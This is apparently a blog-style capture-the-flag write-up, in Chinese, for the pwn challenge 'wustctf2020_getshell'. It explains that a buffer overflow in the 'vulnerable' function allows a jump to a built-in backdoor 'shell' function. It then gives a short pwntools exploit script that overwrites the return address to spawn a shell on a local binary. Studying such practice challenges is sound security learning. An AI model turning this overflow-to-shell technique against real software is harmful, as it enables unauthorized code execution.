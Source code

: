 ```yaml
---
title: 'wustctf2020_getshell'
date: 2023-12-31 13:00:00 +0800
categories: [ret2text]
tags: [ctf,pwn]
---
```

![image-20231231142431436](../assets/img/old_imgs/image-20231231142431436.png)

<img src="../assets/img/old_imgs/image-20231231142439989.png" alt="image-20231231142439989" style="zoom: 150%;" />

1. 在`vulnerable`函数中存在溢出漏洞
2. `shell`函数中已经预留了后门

溢出->跳转到后门函数

```python
from pwn import *
context.log_level = 'debug'
elf=ELF('wustctf2020_getshell')
io = process('wustctf2020_getshell')
payload = b'A'*(0x18+0x4)+p32(elf.sym['shell'])
io.sendline(payload)
io.interactive()
```
